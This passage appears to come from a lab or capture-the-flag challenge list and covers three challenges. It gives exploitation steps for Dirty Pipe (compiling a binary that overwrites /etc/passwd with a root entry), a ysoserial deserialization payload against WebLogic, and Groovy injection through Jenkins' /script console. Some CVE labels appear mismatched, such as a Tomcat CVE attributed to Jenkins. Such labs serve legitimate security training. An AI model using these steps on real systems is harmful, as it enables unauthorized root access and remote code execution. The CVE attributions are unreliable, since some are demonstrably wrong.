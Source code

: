 **Exploitation Steps:**
1. Download and compile the exploit:
   ```bash
   gcc dirtypipe.c -o dirtypipe
   ```
2. Run the compiled binary:
   ```bash
   ./dirtypipe /etc/passwd "root:x:0:0:root:/root:/bin/bash"
   ```

**Expected Outcome:**
Gain `root` shell or escalate privileges.

---

### **Challenge 5: CVE-2022-21476 (Oracle WebLogic RCE)**
**Vulnerability Type:** Vulnerable and Outdated Components

**Service Port:** 3000

**Description:** An RCE vulnerability in Oracle WebLogic.

**Hint:**
- Look for deserialization vulnerabilities.

**Tools:**
- `ysoserial` (Java deserialization payload generator)

**Exploitation Steps:**
1. Generate an exploit payload using `ysoserial`:
   ```bash
   java -jar ysoserial.jar CommonsCollections1 "touch /tmp/pwned" > payload.ser
   ```
2. Send the payload to the vulnerable WebLogic endpoint.

**Expected Outcome:**
Create a file `/tmp/pwned` on the server.

---

### **Challenge 6: CVE-2022-23181 (Jenkins LPE)**
**Vulnerability Type:** Security Misconfiguration

**Service Port:** 9099

**Description:** Jenkins improper configuration leading to local privilege escalation.

**Hint:**
- Check the `/script` console.

**Tools:**
- Browser

**Exploitation Steps:**
1. Navigate to `http://<server_ip>:9099/script`
2. Inject a Groovy script:
   ```groovy
   println "Current User: ${System.getProperty('user.name')}"
   ```
